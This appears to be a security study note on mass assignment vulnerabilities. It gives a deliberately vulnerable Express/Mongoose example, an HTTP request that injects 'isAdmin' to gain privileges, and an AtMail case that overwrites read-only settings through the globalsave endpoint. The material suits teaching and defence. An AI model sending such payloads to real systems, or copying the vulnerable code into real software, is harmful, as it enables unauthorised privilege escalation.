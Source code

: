 # Mass Assignment vulnerability

Mass assignment is a type of security vulnerability that occurs when an application code allows user-provided data to be used to set properties on an object without verifying that the user has the right to do so.

Many web application frameworks offer an active record and object-relational mapping features, where external data in serialization formats is automatically converted on input into internal objects and, in turn, into database record fields. If the framework's interface for that conversion is too permissive and the application designer doesn't mark specific fields as immutable, it is possible to overwrite fields that were never intended to be modified from outside.

This vulnerability opens to other scenarios, like:
- [Access control vulnerabilities](Access%20control%20vulnerabilities.md)
- [Prototype Pollution server-side](Prototype%20Pollution%20server-side.md)
- [Authentication Attacks](Authentication%20Attacks.md)

## Privilege escalation exploiting mass assignment

Standard API request for creating a user:

```http
POST /user/create HTTP/1.1
Host: test.com

{
“username” : “jane.doe”,
“password” : “C0rr3ctH0r$3B@tt3rySt@pl3”,
“email” : “jane@somecompany.com”
}
```

If the backend do not check which data has been sent in the body and assumes they are all expected parameters, an attacker can escalate his privileges.
A vulnerable sample code is the one below:

```js
const express = require('express');
const mongoose = require('mongoose');
const jsonParser = require('body-parser').json();
var User = null;
const app = express();
const port = 3000;

app.post('/user/create', jsonParser, async function(req, res) {
    ...
    var newUser = new User(req.body);
    await newUser.save(function(err) {
        if (err) {
            res.status(500);
            res.send(err);
        }
    });
    res.send(newUser);
});

mongoose.connect('mongodb://localhost:27017/supercloudcrm', {
        useNewUrlParser: true
    })
    .then(() => {
        const userSchema = mongoose.Schema({
            username: String,
            password: String,
            email: String,
            isAdmin: bool
        });
        User = mongoose.model('User', userSchema);

        app.listen(port, () => {
            console.log(`Listening on http://0.0.0.0:${port}`);
        });

    });
```

The vulnerability can be exploited sending a request containing an unexpected `isAdmin` value:
```http
POST /user/create HTTP/1.1
Host: test.com

{
“username” : “jane.doe”,
“password” : “C0rr3ctH0r$3B@tt3rySt@pl3”,
“email” : “jane@somecompany.com”,
"isAdmin": true
}
```

## Update read-only data using mass assignment

In AtMail the `tmpFolderBaseName` variable is set (and saved in the DB) the first time the product is installed and then cannot be altered in any way from the application. For a vulnerability chain, however, we need to update that variable.

The request in charge of updating application settings is `globalsave`:
```http
POST /index.php/admin/settings/globalsave HTTP/1.1
Host: atmail
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:52.0) Gecko/20100101 Firefox/52.0
Accept: application/json, text/javascript, */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://atmail/index.php/admin/index/login
Content-Type: application/x-www-form-urlencoded
X-Requested-With: XMLHttpRequest
Content-Length: 834
Cookie: atmail6=9sa5pic6s1sqsa38iqlencctl5; atmail6_admin=hr0e0hv45ce0t2rkjne561sb57
Connection: close

save=1&fields%5Badmin_email%5D=postmaster%40mydomain.com&fields%5Bsession_timeout%5D=120&fields%5Bsql_host%5D=127.0.0.1&fields%5Bsql_user%5D=root&fields%5Bsql_pass%5D=956ec84a45e0675851367c7e480ec0e9&fields%5Bsql_table%5D=atmail6&dovecot%5BauthType%5D=sql&dovecot%5BldapType%5D=openldap&dovecot%5Bldap_bindauth%5D=1&dovecot%5Bldap_host%5D=&dovecot%5Bldap_binddn%5D=&dovecot%5Bldap_bindpass%5D=&dovecot%5Bldap_basedn%5D=&dovecot%5Bldap_passwdfield%5D=&dovecot%5Bldap_passfilter%5D=&dovecot%5Bldap_bindauth%5D=1&dovecot%5Bldap_bindauthdn%5D=cn%3D%25u%2Cdc%3Ddomain%2Cdc%3Dorg&userPasswordEncryptionTypeCurrent=PLAIN&fields%5BuserPasswordEncryptionType%5D=PLAIN&externalUserPasswordEncryptionTypeCurrent=PLAIN&fields%5BexternalUserPasswordEncryptionType%5D=PLAIN&fields%5Bmaster_key%5D=&fields%5Blog_purge_days%5D=180&fields%5Bdebug%5D=0
```

The code updating configuration data is the one below:
```php
...
config::save( 'global', $this->requestParams['fields'] );
...
class config{
	...
	public static function save($sectionNode, $newConfig){
		...
		foreach($newConfig as $newKey => $newValue){
			//blindly update the config object - just incase used elsewhere then will be updated
			$configObj->$sectionNode[$newKey] = $newValue;
			//go through each responce field
			$responseMatchFoundInDb = false;
			foreach($existingConfig as $existingRow){
				//go thorugh each db row looking for a match (only update exsting)
				if( $existingRow['keyName'] == $newKey ){
					...
				}else{
					$existingRow['keyValue'] = trim($newValue);
					$result = $dbAdapter->update($dbConfig->database->params->configtable,$existingRow, $dbAdapter->quoteinto('configId = ?',$existingRow['configId']) );
				}
			}
		}
	}
}
```

>[!bug]
>The code allows us to successfully update any global setting of our choosing since there are no implemented checks on which settings are updated


# External References

- [Mass assignment vulnerability](https://en.wikipedia.org/wiki/Mass_assignment_vulnerability), Wikipedia
- [Mass assignment](https://learn.snyk.io/lessons/mass-assignment/javascript/), Snyk
- [Mass Assignment Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Mass_Assignment_Cheat_Sheet.html), OWASP